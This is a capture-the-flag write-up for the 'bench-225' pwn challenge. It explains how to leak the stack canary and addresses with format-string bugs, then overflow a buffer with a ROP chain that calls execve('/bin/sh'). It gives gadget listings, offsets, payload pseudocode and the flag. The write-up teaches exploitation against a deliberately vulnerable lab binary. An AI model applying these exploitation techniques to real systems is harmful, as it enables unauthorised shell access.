


# Prompt

Life is one big tug of war. And you don't win the war by pushing the rope.

Files:

    bench-225

nc bench-225.ctf.umasscybersec.org 1337 

# Solve 

Speed run intro: Running the code shows a cli app, reversing the code shows we need to get our stamina below 50 to get a new option in the "game". This new option is the only one we care about; reveal by entering `3, 3, 3, 3, 3, 4, 4, 4, 4, 4, 4`. 

## Vulnerabilities 

Run `checksec`: 

```
>> checksec ./bench-225
[*] '/root/workbench/umassctf_2024/pwn/bench-225/bench-225'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Yikes... We have everything...

The new option in the game takes us to a function named `motivation`

This function holds all of the vulnerabilities we could possibly want! 



We have a buffer of 8 bytes that we can write 1000 bytes into, so that's a BOF... We have a `printf` call with no format arguments, so that's a leak!

Since canaries are enabled, we probably want the stack cookie, because if we get that then we can ROP!

The `motivation` function just lets us enter those 1000 bytes previously mentioned, but we don't want to stack overflow while gathering our leaks!

Using `telescope` in `gef` after we break point at the `fgets` call, we can start using some format bugs to leak data. If we enter '%9$p' we get the cookie!

## ROP Funz 

Since we can use ROP, let's check if there are any useful functions or one-gadgets we might've missed... No one-gadgets, but there is a function that is not called from anywhere named `the_boats`. Decompiling this reveals a ton of useful ROP gadgets: 



So, if we can get the address of `the_boats`, we can use these gadgets... but, how do we do that? Well, checking the stack again, we see we can grab the address of `main` if we enter a format string bug of `%17$p`!

So, let's calulate the offset of `main` and `the_boats` since we have a leak of the base address of `main` (because PIE is enabled, these values are just from my run and won't match yours):

Example `main`:      0x0000560f8995d35c
Example `the_boats`: 0x0000560f8995d317

0x0000560f8995d317 - 0x0000560f8995d35c = 69. 

So, `the_boats` is 69 bytes *behind* `main`. We can grab the offsets of the gadgets as well.

```
   the_boats <+27>:    pop    rax
   the_boats <+28>:    ret
   the_boats <+29>:    pop    rbx
   the_boats <+30>:    ret
   the_boats <+31>:    pop    rdi
   the_boats <+32>:    ret
   the_boats <+33>:    pop    rdx
   the_boats <+34>:    ret
   the_boats <+35>:    pop    rsi
   the_boats <+36>:    ret
   the_boats <+37>:    pop    rcx
   the_boats <+38>:    ret
   the_boats <+39>:    syscall
   the_boats <+41>:    ret
   the_boats <+42>:    mov    rdi,rax
   the_boats <+45>:    ret
```

The very next byte is the start of `main`. 

So, we have the cookie and we have a bunch of ROP gadgets. We also vbuffers for stdin/stdout/stderr on the remote connection, which means if we get a shell *locally* we will see it *remotely* (which doesn't usually work). 

So, the call we want to make is, in its most basic form, `execve("/bin/sh", NULL, NULL)`. We can do this in a ROP chain if we use the `syscall` ROP gadget after setting the following registers to the following values:

```
    rdi = "/bin/sh\0"
    rsi = 0x0
    rdx = 0x0
    rax = 0x3b
```

Conveniently, we have pop gadgets to populate all of these registers *and* `fgets` only terminates the input on a newline, which is *fantastic* because it means we can enter NULL bytes, which we need to set `rsi` and `rdi`!

The pseudo code for the ROP chain I wrote was (assume we have gathered the leak for `main` and the cookie): 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += b"/bin/sh\0"
    payload += syscall_gadget
```

The "padding" is of 8 bytes. Our buffer overflow was 8 bytes away from the cookie and the cookie was 8 bytes away from `rip`, so we had to pad either side of it. 

But... this failed... why? 

## Realizing Your Mistake 

There is one major problem... Those of you more astute than I am will have noticed it already...

The function signature for `execve` is 

```
int execve(const char *path, char *const argv[], char *const envp[]);
```

Now, I am *100% certain* the last two arguments of this call *can* be `NULL`. But, the mistake I made was... *drumroll*... I set `rdi` to the character bytes of `/bin/sh\0` instead of a *pointer* to those bytes. 

Well, how do we `rdi` a pointer? Since we can `NULL` terminate `/bin/sh`, we really just need an the address where the start of the string is written. 

Let's go back to our leaks... This is a stack based buffer overflow, so if we can get the *address of the stack* we can point to data we control! Cutting out some of the trial and error here, just know that `%19$p` leaks an address on the stack. This address is consisently 328 bytes *ahead* of the *start* of our ROP chain, so if we know how many instructions we *need* we can just tack as much data at the end of our ROP chain as we want to point to after calculating the offset from the start of our overflow.

Again, let's cut out some of the trial and error here and just let me tell you that our necessary ROP chain will be 96 bytes long, meaning we can start writing our arbitrary data after that and then point to it with our stack leak!

The new pseudo code for the payload is: 

```
    payload += padding
    payload += cookie
    payload += padding
    payload += pop_rax
    payload += execve_sys_num
    payload += pop_rsi
    payload += nulls
    payload += pop_rdx
    payload += nulls
    payload += pop_rdi
    payload += stack_leak - 328 + 96
    payload += syscall_gadget
    payload += b"/bin/sh\0"
```

Remember, our leak was 328 bytes ahead of our shellcode, but "/bin/sh\0" is 96 bytes after that, which is why we did the math this way.

Aaaaaaaand, we get a shell!

UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
